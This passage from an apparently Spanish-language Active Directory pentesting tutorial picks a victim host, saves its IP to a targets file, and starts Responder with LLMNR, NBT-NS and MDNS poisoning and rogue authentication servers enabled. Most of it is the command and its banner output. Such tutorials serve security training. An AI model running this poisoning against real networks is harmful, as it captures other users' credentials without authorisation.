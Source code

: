 Vamos a fijar nuestro objetivo en `PC-RAMLUX` por lo que enumeramos los equipos existentes en la red para ver qué IP tiene este equipo.

<img src="/assets/Tips/AD/netenum.png">

Guardamos en un archivo `targets.txt` la IP de nuestra víctima

<img src="/assets/Tips/AD/target.png">

En este punto arrancamos el `responder`.

```bash
❯ python3 Responder.py -I ens33 -rdw
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

```